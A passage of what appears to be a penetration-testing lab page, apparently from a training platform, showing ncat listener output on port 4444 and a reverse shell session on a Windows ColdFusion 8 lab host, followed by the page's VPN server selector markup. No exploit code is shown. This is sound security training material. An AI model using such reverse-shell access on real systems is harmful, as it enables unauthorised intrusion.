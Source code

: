 Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.247.30.
Ncat: Connection from 10.129.247.30:49866.
</code></pre>
<h4>Reverse Shell</h4>
<pre><code class="language-cmd-session">Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin&gt;dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\ColdFusion8\runtime\bin

22/03/2017  08:53 ��    &lt;DIR&gt;          .
22/03/2017  08:53 ��    &lt;DIR&gt;          ..
18/03/2008  11:11 ��            64.512 java2wsdl.exe
19/01/2008  09:59 ��         2.629.632 jikes.exe
18/03/2008  11:11 ��            64.512 jrun.exe
18/03/2008  11:11 ��            71.680 jrunsvc.exe
18/03/2008  11:11 ��             5.120 jrunsvcmsg.dll
18/03/2008  11:11 ��            64.512 jspc.exe
22/03/2017  08:53 ��             1.804 jvm.config
18/03/2008  11:11 ��            64.512 migrate.exe
18/03/2008  11:11 ��            34.816 portscan.dll
18/03/2008  11:11 ��            64.512 sniffer.exe
18/03/2008  11:11 ��            78.848 WindowsLogin.dll
18/03/2008  11:11 ��            64.512 wsconfig.exe
22/03/2017  08:53 ��             1.013 wsconfig_jvm.config
18/03/2008  11:11 ��            64.512 wsdl2java.exe
18/03/2008  11:11 ��            64.512 xmlscript.exe
              15 File(s)      3.339.009 bytes
               2 Dir(s)   1.432.776.704 bytes free
</code></pre>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>